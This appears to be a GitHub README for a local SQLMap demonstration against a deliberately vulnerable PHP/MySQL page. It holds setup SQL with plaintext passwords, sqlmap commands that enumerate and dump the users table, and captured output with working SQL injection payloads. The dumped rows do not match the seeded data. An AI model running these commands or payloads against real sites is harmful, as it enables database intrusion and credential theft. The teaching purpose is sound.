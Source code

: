 # SqlMapDemo
Demonstration of SQLMap on a vulnerable webpage made from PHP &amp; MySQL.

PHPADMIN SQL Query:
CREATE DATABASE demo;
USE demo;

CREATE TABLE users (id INT AUTO_INCREMENT PRIMARY KEY, username VARCHAR(64) NOT NULL UNIQUE, password VARCHAR(255) NOT NULL, email VARCHAR(255) NOT NULL);

INSERT INTO users (username, password, email) VALUES
('test', 'password123', 'test@gmail.com'),
('alice',   'password',     'alice@hotmail.com'),
('mark', 'qwerty',      'mark@yahoo.com'),
('smith', 'letmein',      'smith@gmail.com'),
('john', '123456',      'john@outlook.com'),
('jane', '111111',      'jane@yahoo.com'),
('bob', 'abc123',      'bob@hotmail.com'),
('student', 'iloveyou',      'student@gmail.com'),
('admin', 'admin123',      'admin@gmail.com'),
('guest', 'welcome',      'guest@yahoo.com');

DROP USER IF EXISTS 'demouser'@'localhost';
CREATE USER 'demouser'@'localhost' IDENTIFIED BY 'demopass';
GRANT SELECT, INSERT, UPDATE ON demo.* TO 'demouser'@'localhost';
FLUSH PRIVILEGES;

Final SQL Commands:
sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=vulnerable_search&search=test" --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=vulnerable_search&search=test" --dbs --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=vulnerable_search&search=test" -D demo --tables --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=vulnerable_search&search=test" -D demo -T users --dump --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=login&username=test&password=password123" --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=login&username=admin&password=admin123" -p username --dbs --batch

sqlmap -u "http://localhost/sqlmapdemo/index.php" --data="function=login&username=admin&password=admin123" -p username -D demo -T users --dump --batch


      SQLMAP COMMANDS AND OUTPUT:
      sqlmap -u "http://localhost/sqlmapdemo/vulnerable.php?term=test" -p term --dbms=mysql --batch --risk=3 --level=5
      GET parameter 'term' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
      sqlmap identified the following injection point(s) with a total of 240 HTTP(s) requests:
      ---
      Parameter: term (GET)
          Type: boolean-based blind
          Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
          Payload: term=test' OR NOT 7388=7388-- QTHD
      
          Type: error-based
          Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
          Payload: term=test' AND (SELECT 4939 FROM(SELECT COUNT(*),CONCAT(0x7171627171,(SELECT (ELT(4939=4939,1))),0x7162707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- UkbI
      
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: term=test' AND (SELECT 4242 FROM (SELECT(SLEEP(5)))phvE)-- iSiv
      
          Type: UNION query
          Title: Generic UNION query (NULL) - 3 columns
          Payload: term=test' UNION ALL SELECT NULL,CONCAT(0x7171627171,0x70416f494e5554535062436a765a7941774b4f617273476a70446163774162737754436148496d76,0x7162707671),NULL-- -     
      ---
      
      
      sqlmap -u "http://localhost/sqlmapdemo/vulnerable.php?term=test" -p term -D demo -T users --dump
      ---
      Parameter: term (GET)
          Type: boolean-based blind
          Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
          Payload: term=test' OR NOT 7388=7388-- QTHD
      
          Type: error-based
          Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
          Payload: term=test' AND (SELECT 4939 FROM(SELECT COUNT(*),CONCAT(0x7171627171,(SELECT (ELT(4939=4939,1))),0x7162707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- UkbI
      
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: term=test' AND (SELECT 4242 FROM (SELECT(SLEEP(5)))phvE)-- iSiv
      
          Type: UNION query
          Title: Generic UNION query (NULL) - 3 columns
          Payload: term=test' UNION ALL SELECT NULL,CONCAT(0x7171627171,0x70416f494e5554535062436a765a7941774b4f617273476a70446163774162737754436148496d76,0x7162707671),NULL-- -     
      ---
      Database: demo
      Table: users
      [3 entries]
      +----+-------------------+-------------+----------+
      | id | email             | password    | username |
      +----+-------------------+-------------+----------+
      | 1  | alice@example.com | password123 | alice    |
      | 2  | bob@example.com   | hunter2     | bob      |
      | 3  | chloe@example.com | qwerty      | chloe    |
      +----+-------------------+-------------+----------+
      
      
      sqlmap -u "http://localhost/sqlmapdemo/login.php" \  --data="username=alice&password=test" \  -p username --batch --dbms=mysql
      ---
      Parameter: username (POST)
          Type: boolean-based blind
          Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
          Payload: username=alice%' OR NOT 5696=5696#&password=test
      
          Type: error-based
          Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
          Payload: username=alice%' AND EXTRACTVALUE(8184,CONCAT(0x5c,0x716a6a7071,(SELECT (ELT(8184=8184,1))),0x716a766271)) AND 'xgEN%'='xgEN&password=test
      
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: username=alice%' AND (SELECT 3114 FROM (SELECT(SLEEP(5)))lUEX) AND 'yLLg%'='yLLg&password=test
      
          Type: UNION query
          Title: MySQL UNION query (NULL) - 2 columns
          Payload: username=alice%' UNION ALL SELECT NULL,CONCAT(0x716a6a7071,0x736a566275747373677a556c74526c534665765a67505564785855454b6c5951686c484f73796648,0x716a766271)#&password=test
      ---
